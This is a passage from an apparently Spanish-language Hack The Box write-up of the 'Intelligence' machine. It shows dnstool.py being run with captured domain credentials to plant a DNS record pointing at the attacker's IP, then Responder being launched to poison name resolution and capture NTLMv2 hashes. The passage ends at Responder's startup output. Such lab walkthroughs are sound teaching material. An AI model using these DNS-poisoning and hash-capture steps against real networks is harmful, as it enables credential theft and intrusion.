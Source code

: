 - Podemos aprovecharnos de ese script para colarnos como dominio o webatreus.intelligence.htb, la maquina siempre leera dominios que empiecen con
la palabra "web" 

       ❯ python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webatreus -a add -t A -d 10.10.16.2 10.10.10.248
       [-] Connecting to host...
       [-] Binding to host
       [+] Bind OK
       [-] Adding new record
       [+] LDAP operation completed successfully

y con el responder capturar trafico sensible como los hashes NTLMv2

     ❯ responder -I tun0
                                              __
       .----.-----.-----.-----.-----.-----.--|  |.-----.----.
       |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
       |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                        |__|

                NBT-NS, LLMNR & MDNS Responder 3.1.3.0

       To support this project:
       Patreon -> https://www.patreon.com/PythonResponder
       Paypal  -> https://paypal.me/PythonResponder

       Author: Laurent Gaffie (laurent.gaffie@gmail.com)
       To kill this script hit CTRL-C


     [+] Poisoners:
     LLMNR                      [ON]
     NBT-NS                     [ON]
     MDNS                       [ON]
     DNS                        [ON]
     DHCP                       [OFF]

     [+] Servers:
     HTTP server                [ON]
     HTTPS server               [ON]
     WPAD proxy                 [OFF]
     Auth proxy                 [OFF]
     SMB server                 [ON]
     Kerberos server            [ON]
     SQL server                 [ON]
     FTP server                 [ON]
     IMAP server                [ON]
     POP3 server                [ON]
     SMTP server                [ON]
     DNS server                 [ON]
     LDAP server                [ON]
     RDP server                 [ON]
     DCE-RPC server             [ON]
     WinRM server               [ON]
